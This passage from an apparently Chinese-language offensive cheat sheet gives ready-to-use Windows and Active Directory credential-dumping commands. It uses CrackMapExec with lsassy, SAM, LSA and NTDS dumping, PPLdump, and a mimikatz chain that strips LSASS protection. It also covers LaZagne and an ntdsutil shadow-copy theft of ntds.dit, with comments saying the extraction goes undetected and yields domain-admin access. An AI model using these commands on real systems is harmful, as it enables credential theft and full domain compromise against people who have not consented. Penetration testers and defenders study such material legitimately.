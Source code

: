 ```sh
cme smb <ip_range> -u <user> -p <password> -M lsassy
cme smb <ip_range> -u <user> -p '<password>' --sam / --lsa / --ntds
```

### 绕过LSA读取密码

```shell
PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp

mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys 
```

### token窃取

```sh
#查看本地存储所有的密码
lazagne.exe all
GitHub地址：https://github.com/AlessandroZ/LaZagne
```

<img src="image/image-20230922210601160.png" alt="image-20230922210601160" style="zoom:67%;" />

```sh
#卷影拷贝（获取域控所有hash）
#通常情况下，即使拥有管理员权限，也无法读取域控制器中的C:\Windows\NTDS\ntds.dit文件。(活动目录始终访问这个文件，所以文件被禁止读取)
#使用Windows本地卷影拷贝服务(volume Shadow Copy Server，VSS)，就可以获取文件的副本(类似于虚拟机的快照)。
#ntds.dit文件是一个数据库，用于存储Active Directory数据，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希。通过提取这些哈希值，可以使用诸如Mimikatz之类的工具执行哈希传递攻击，或使用诸如Hashcat之类的工具来破解这些密码。这些密码的提取和破解可以脱机执行，因此将无法检测到。一旦攻击者提取了这些散列，它们便可以充当域上的任何用户，包括域管理员。
#在活动目录中，所有的数据都保存在ntds.dit中。ntds.dit是一个二进制文件，存储位置为域控制器的%SystemRoot%\ntds\ntds.dit。ntds.dit中包含用户名、散列值、组、GPP、OU等与活动目录相关的信息。它和SAM文件一样，是被操作系统锁定的。

#①利用ntdsutil.exe提取ntds.dit
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
#挂载快照
ntdsutil snapshot "mount {f2de785c-15d1-4b9d-bd1a-deeb599c1e2b}" quit quit
#复制ntds.dit
copy C:\$SNAP_202309222110_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

unmount		delete
```